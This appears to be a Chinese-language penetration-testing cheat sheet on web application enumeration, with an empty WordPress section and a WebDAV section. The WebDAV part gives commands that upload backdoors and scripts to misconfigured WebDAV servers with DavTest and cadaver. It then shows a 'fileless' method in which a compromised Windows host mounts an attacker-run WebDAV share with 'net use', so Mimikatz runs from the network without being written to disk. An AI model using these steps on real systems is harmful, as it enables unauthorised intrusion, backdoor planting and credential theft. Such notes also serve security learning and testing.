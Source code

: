 # web应用枚举

&nbsp;

## Wordpress枚举

### 【wordpress用户枚举】




&nbsp;

## WebDav枚举
* 通俗一点儿来说，WebDAV 就是一种互联网方法，应用此方法可以在服务器上划出一块存储空间，可以使用用户名和密码来控制访问，让用户可以直接存储、下载、编辑文件。

### 【webDav配置不当上传木马】

* 1）使用DavTest工具测试webdav能否执行一些脚本
  ```bash
  davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
  ```

* 2）使用cadaver工具连接webdav，上传脚本
  ```bash
  cadaver IP
  ```
  >登录成功后，使用upload，move，delete命令进行操作


### 【webdav无文件落地目标系统】

* window读取linux文件
  * （1）在win或者linux系统上搭建webdav服务环境，作为工具上传基址
    ```bash
    pip install PyWebDAV //win系统
    apt-get install python-webdav //linux系统
    davserver -D /工具路径 -n -H 10.10.10.10 //启动webdav
    ```
  * （2）当我们已经拥有命令执行权限时，需要将文件在目标机器上执行，由于 Windows 下载文件比较麻烦，故此采用 Webdav
    ```bash
    net use Z: http://10.10.10.10:8008 //挂载远程webdav
    net use Z: /DELETE //终止挂载
    ```
  * （3）当我们运行 Mimikatz 时，会从网络加载这个文件，而不会落地到目标机器


&nbsp;


